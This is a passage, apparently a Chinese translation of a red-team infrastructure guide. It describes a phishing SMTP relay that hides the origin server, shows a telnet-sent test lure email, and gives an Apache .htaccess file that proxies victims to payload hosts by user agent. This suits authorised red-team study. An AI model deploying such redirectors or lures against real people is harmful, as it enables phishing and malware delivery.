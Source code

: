 # 8. 钓鱼 Redirector
这是最耗时的部分。 众所周知，设置 SMTP 服务器通常是一个非常痛苦的过程。 自动化部署的价值在于一旦它被发现并销毁，您将永远不需要从头开始重建 SMTP 服务器；设置包括：

- SPF 记录
- DKIM
- 加密
- postfix 配置为中继
- 清理电子邮件标头以混淆原始电子邮件服务器

测试钓鱼及其Redirector

- 一旦基础设施建立起来，钓鱼相关的DNS 区域应该有 spf、dkim 和 dmarc 记录，类似于这里看到的那些：
- ![5j8gR9](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-01/5j8gR9.jpg)
- 完成 DNS 设置后，可以通过中继服务器从实际的钓鱼服务器向 gmail 发送快速测试电子邮件，看看 spf、dkim 和 dmarc 是否检查 PASS，我们可以在下面看到他们在我们的案例中所做的：

```
  telnet redteam.me 25
  helo redteam.me
  mail from: olasenor@redteam.me
  rcpt to: mantvydo@gmail.com
  data
  to: Mantvydas Baranauskas <mantvydo@gmail.com>
  from: Ola Senor <olasenor@redteam.me>
  subject: daily report
  
  Hey Mantvydas,
  As you were requesting last week - attaching as promised the documents needed to keep the project going forward.
  .
```

- ![DCsD4o](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-01/DCsD4o.jpg)

# 9. Payload Redirector
Payload Redirector服务器建立在 apache2 mod_rewrite 和proxy模块上。 mod_rewrite 模块允许我们编写细粒度的 URL 重写规则，并将受害者的 HTTP 请求代理到合适位置。

下面是一个 .htaccess 文件，说明何时、何地以及如何（即代理或重定向）重写传入的 HTTP 请求：

```
  RewriteEngine On
  RewriteCond %{HTTP_USER_AGENT} "android|blackberry|googlebot-mobile|iemobile|ipad|iphone|ipod|opera mobile|palmos|webos" [NC]
  RewriteRule ^.*$ http://payloadURLForMobiles/login [P]
  RewriteRule ^.*$ http://payloadURLForOtherClients/%{REQUEST_URI} [P]
```

下面的截图应该说明了上述概念：

- **绿色部分** - 我们使用了 curl（及其默认 UA），根据 .htaccess 文件，它应该将我们重定向到 payloadURLForOtherClients - 但因为它是一个测试主机且不可解析，所以失败了。
- **粉红色部分** - 这次使用伪造的 UA，将 http 请求伪装成来自 iphone 的请求 - 我们可以看到 apache 正确地尝试将请求代理到 payloadURLForMobiles 主机。
- ![pWlp0D](https://cdn.jsdelivr.net/gh/MarsAuthority/sec_pic@master/uPic/2023-01/pWlp0D.jpg)
